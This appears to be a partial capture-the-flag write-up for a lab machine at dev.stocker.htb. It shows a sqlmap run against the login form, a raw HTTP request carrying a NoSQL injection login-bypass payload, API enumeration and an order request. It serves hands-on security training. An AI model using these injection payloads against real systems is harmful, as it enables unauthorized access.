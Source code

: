 ```
```

### Attack

Nothing interesting here. So we can see if we can do any sql injection in the login form:
```
sqlmap -u 'http://dev.stocker.htb/login' --method post --data "username=angoose&password=pass" --cookie='connect.sid=s%3AI9kigT3WcSgW-Is9eTAxAWmfRppMe6t5.UIsXVI%2FoT0yQ6ZS0JtdABKsCcqBw1IRp53mp5UzQvDg' --random-agen --risk=3 --level=3
```
Didn't work. Since we know that Express, we can also try no-sql injection:
```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 55
Origin: http://dev.stocker.htb
DNT: 1
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3ArDy-RApeSmpmS2G8qZfnvBXAoLL1Tszu.gRerm1A0nwOnByrFP0RCYTvb%2BXjG9pPBJDCHhZcScMU
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

{"username": {"$ne": null}, "password": {"$ne": null} }
```

Additional information, enumerating the website:
* Hugo 0.84.0
* API - /api/products, /api/po/${response.orderId}, /api/order


Sending the order information to figure out the fllow.
```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
Content-Length: 156
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://dev.stocker.htb
Referer: http://dev.stocker.htb/stock
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: connect.sid=s%3AfXnbTUiNIdMOj_RootGAndnItDfZ8xjY.UrNdF4kJe00lNPn5WWzaPwVIbzy2LNTnTzSho8y8Dt4
Connection: close

{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"Axe","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1}]}
```
Information from purchase order for PDF properties or exiftool.
* PDF producer:	Skia/PDF m108
